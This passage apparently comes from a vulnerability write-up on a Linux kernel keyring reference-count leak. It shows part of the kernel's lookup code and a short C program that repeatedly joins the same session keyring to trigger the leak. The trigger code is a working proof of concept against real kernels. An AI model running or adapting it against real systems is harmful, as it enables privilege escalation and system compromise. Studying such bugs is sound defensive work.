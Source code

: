 ```c++
	}

	keyring = ERR_PTR(-ENOKEY);
out:
	read_unlock(&keyring_name_lock);
	return keyring;
}
```

So you know the answer when users ask for a session join with a keyring that is already subscribed for the process. It will error increase the ref-count of that keyring.

## Triggering

The code for trigger this bug also quite clear.

```c++
#include <stddef.h>
#include <stdio.h>
#include <sys/types.h>
#include <keyutils.h>

int main(int argc, const char *argv[])
{
	int i = 0;
	key_serial_t serial;

	serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING,
			"leaked-keyring"); 	// first time, create this keyring
	if (serial < 0) {
		perror("keyctl");
		return -1;
	}
 	printf("create keyring: %d\n", serial);

	if (keyctl(KEYCTL_SETPERM, serial,
		   KEY_POS_ALL | KEY_USR_ALL) < 0) { 	// key permissions set
	// KEY_POS_ALL Grant the (view,read,write,search,link,setattr) permission to a process that possesses the key
	// KEY_USR_ALL Grant permissions to all same UID process
		perror("keyctl");						
		return -1;
	}

	for (i = 0; i < 100; i++) {
		serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING, 	// keep triggerring
				"leaked-keyring");
		if (serial < 0) {
			perror("keyctl");
			return -1;
		}
	}

	return 0;
}
```
